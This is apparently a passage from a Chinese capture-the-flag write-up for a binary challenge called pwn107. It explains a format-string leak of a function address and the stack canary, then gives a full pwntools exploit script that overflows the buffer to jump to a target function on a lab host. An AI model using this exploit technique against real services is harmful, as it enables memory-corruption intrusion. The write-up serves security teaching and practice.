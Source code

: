 

构造payload

程序第一次读取时，提供字符串"%10$llx $13$llx"，然后程序会回显csu_init函数地址 和 cookie内容。

通过csu_init地址，计算出基址，在计算出get_streak函数地址，和ret函数地址。

```python
#!/usr/bin/env python
from pwn import *

#sh = process('./pwn107')
sh = host = remote('10.10.10.218',9007)
context.log_level = "debug"

output = sh.recvn(0x1ef)


#获取函数地址和cookie
payload = "%10$llx %13$llx"
sh.sendline(payload)

output = sh.recvn(0x2e)
output = sh.recvline()
sh.recv()

output = output[0:-1]
output = str(output,encoding = "utf-8")
output = output.split(' ')


#将cookie转为16进制
cookie = int(output[1],16)

#计算基址
dynamic = int(output[0],16) - 0xa90
#计算get_strak函数地址
get_streak = dynamic + 0x94c

#计算ret命令地址   栈对齐问题
ret_addr = dynamic + 0x00000000000006fe

#构造payload
payload = b"A" * 0x18 + p64(cookie) + b"A" * 0x8 + p64(get_streak)


sh.sendline(payload)

sh.interactive()

```


